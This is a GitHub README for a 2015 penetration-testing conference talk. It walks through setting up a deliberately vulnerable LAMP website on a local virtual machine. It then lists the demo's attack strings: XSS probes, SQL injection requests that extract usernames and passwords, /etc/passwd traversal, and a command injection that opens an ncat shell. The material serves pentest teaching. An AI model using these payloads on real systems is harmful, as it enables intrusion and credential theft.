 #Spanking The Monkey (or how pentesters can do it better!)

In today’s mainstream penetration testing and Red Team environments we feel that the teams are relying too much on noisy scanners. In part making for a large group of scanner monkeys. This talk is bringing back old school ways with a new flavor, a new flair to prove that those techniques still work in the majority of engagements that many of us are involved in. The problem with many tools is not only how noisy they can be, but also the amount of logic and decision making that goes on under the hood without any human input. 

*****
##Index
* Recorded Talks
* Follow Along
* Resources

*****
###Recorded Talks
####SecKC May 2015 (Kansas City, Kansas)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=_d6E__jmYdA" target="_blank"><img src="http://img.youtube.com/vi/_d6E__jmYdA/0.jpg" 
alt=“SecKC” width=“560” height=“315” border=“0” /></a> 

####DerbyCon 5.0 (Louisville, Kentucky)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=sQTiLD32U70" target="_blank"><img src="http://img.youtube.com/vi/sQTiLD32U70/0.jpg" 
alt=“SecKC” width=“560” height=“315” border=“0” /></a> 

*****
###Follow Along
Follow along with us or play around with the website.  This section will describe how to get the vulnerable website up and running on your own virtual machine.  

The configuration directions are for Ubuntu Desktop 14.04.3, but any Linux system will work.

####Install Ubuntu as a Virtual Machine

We’ll leave this part up to you.  Plenty of guides exist on the internet.  To help get you started some links are below:

* [Ubuntu Desktop] (http://www.ubuntu.com/download/desktop)
* [Virtual Box] (https://www.virtualbox.org/wiki/Downloads)
* [VMware Player] (https://www.vmware.com/products/player)

####Install Latest Updates
After getting Ubuntu installed, we will want to ensure that it is up-to-date
```
sudo apt-get update
sudo apt-get upgrade
sudo apt-get dist-upgrade
reboot
```

####Install LAMP stack
The Linux, Apache, MySQL, PHP (LAMP) stack is a popular open source web platform commonly used to run dynamic web sites and servers.  Since the stack is so popular, we decided to pick on it.

On Ubuntu the LAMP stack can be installed either separately or with the special package lamp-server

```
sudo apt-get install lamp-server^ -y
```

(Mind the caret (^) at the end)

The install process for mysql-server will prompt you to enter a password for the “root” user of the database.  This will be the master administrator password and should be different then the password you use for your user account.  

####Setup website

Now comes the fun part.  Installing the www.angry_monkey.com website.  To do this we will clone the git repo and move the files around. 

First we need to make sure that git is installed
```
sudo apt-get install git -y
```

Next pick a directory and clone the repo.  
```
cd ~/Desktop
git clone https://github.com/chetbishop/Spanking-The-Monkey.git
```

Populate the database, entering the password you setup earlier when prompted.
```
cd Spanking-The-Monkey/WebSite
mysql -u root -p < Database/schema.sql
```

Copy the Apache2 config file
```
sudo cp Apache\ Config/default /etc/apache2/sites-enabled/000-default.conf
```

Copy the website content
```
sudo cp -r Content/vulnsite/ /var/www/
```

Enable mod_rewrite in Apache
```
sudo a2enmod rewrite
```

Restart Apache
```
sudo service apache2 restart
```

####Update the /etc/hosts file
Since we are running the website locally, and not using a DNS server, we need to tell Ubuntu how to reach www.angry_monkey.com

Open the /etc/hosts file with your favorite text editor
```
sudo vi /etc/hosts
```

Add the following lines to the bottom of the file
```
#www.angry_monkey vulnerable site
127.0.0.1 www.angry_monkey.com
```

You will also need ncat to exploit the Command Injection vuln. ncat is inside the nmap package in Ubuntu.
```
sudo apt-get install nmap
```

####Go Have Fun
You should now be able to open your web browser and go to [www.angry_monkey.com](www.angry_monkey.com)

The following probes and commands are used during the demo to test and exploit the different vulnerabilities present on the website.

**Cross-Site Scripting**
```
>'>"><owl>

aaa
1337
<b>aaa
<script>alert(1)</script>
<script>alert(location.host)</script>
```

**SQL Injection**
```
')\

curl www.angry_monkey.com/profiles/42\/antonio
www.angry_monkey.com/profiles/42\/ OR 1 -- -
www.angry_monkey.com/profiles/42\/%09OR%091--%09-

www.angry_monkey.com/profiles/42\/%09UNION%09SELECT%091,2,3--%09-
www.angry_monkey.com/profiles/42\/%09UNION%09SELECT%091,2,3,4--%09-

curl "www.angry_monkey.com/profiles/42\/%09AND%09(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09JOIN%09users%09b%09using%09(id,us3rn4m3))%09a)--%09-"
curl "www.angry_monkey.com/profiles/42\/%09AND%09(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09JOIN%09users%09b%09using%09(id,us3rn4m3,twitter))%09a)--%09-"

curl "www.angry_monkey.com/profiles/42%5c/OR%09POLYGON((SELECT(1)FROM(SELECT(us3rn4m3),(PassW0rdColuMn)FROM(users)WHERE(id=42))x))--%09-"
```

**Command Injection**
```
/etc/passwd
../../../../../../../etc/passwd
;echo 111
%26%26echo 111

http://www.angry_monkey.com/index.php?doc=us.txt%26%26ncat -c sh -l -p 3333%26
ncat www.angry_monkey.com 3333
```

###Resources
Our notes for the talk are in the Resources folder.  Below are links for the tools and organizations we speak about.

* [OWASP] (https://www.owasp.org)
* [OWASP Top 10] (https://www.owasp.org/index.php/Top_10_2013)
* [OWASP Testing Guide] (https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents)
* [OWASP Testing for Reflected Cross site scripting] (https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing for SQL Injection] (https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))
* [OWASP Testing for MySQL] (https://www.owasp.org/index.php/Testing_for_MySQL)
* [OWASP Testing for Command Injection] (https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013))
